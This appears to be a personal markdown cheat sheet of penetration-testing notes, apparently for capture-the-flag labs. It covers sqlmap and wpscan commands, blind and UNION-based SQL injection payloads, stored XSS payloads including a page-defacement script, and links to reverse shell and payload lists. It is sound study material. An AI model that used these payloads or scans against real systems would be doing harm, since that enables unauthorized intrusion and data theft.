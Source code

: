 #### Reverse shell cheatsheet
- http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

### SQLMap
- copy login request from Burp
- paste in vim
- remove spaces
- `sqlmap -r login.req`

### Wordpress
- `wpscan -u http://10.10.10.14`
- search for usernames `--enumerate u`
- 'Easiest way to edit a PHP file as admin is via the Wordpress templating engine'

### Send Post Request
- Safe POST REQUEST in a local folder
- `python -m SimpleHTTPServer`
- Go to `localhost:8000` in browser

### SQLi
- most commonly used comments for SQLi payloads: `--+` and `/*`
- also `-- -` is used
- asking the database if it's first number is 's' (115 in ADCII)
- `?id=1' AND (ascii(substr((select database()),1,1))) = 115 --+`

#### UNION SQLi attack
1. Finding the number of columns
2. Checking if the columns are suitable
3. Attack and het some interesting data

1. `' ORDER BY 1--`, `' ORDER BY 2--` until error
1. `' UNION SELECT NULL,NULL,NULL--` untill error
2. `' UNION SELECT 'a',NULL,NULL,NULL--`, `' UNION SELECT NULL,'a',NULL,NULL--`

#### SQLMap
- `sqlmap --url http://tbfc.net/login.php --tables --columns`
- useful cheat sheet: https://www.security-sleuth.com/sleuth-blog/2017/1/3/sqlmap-cheat-sheet
- payloads: https://github.com/payloadbox/sql-injection-payload-list
- other payloads: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection

#### SQLMap & BurpSuite
- send the login request to repeater
- save request: right mouse > save item
- `sqlmap -r filename`

### XSS
- Cross Site Scripting
- http://www.xss-payloads.com/

#### Stored XSS
- XSS example in comment: `<script>alert("Test")</script>`
- malicious image: `<img src='LINK' onmouseover="alert('xss')">`
- malicious URL: `<https://somewebsite.com/titlepage?id=> <script> evilcode() </script>`
- test with: `<h1></h1>` and `<b></b>`
- change content on webpage: `<script>document.querySelector('#thm-title').textContent = 'I am a hacker'</script>`
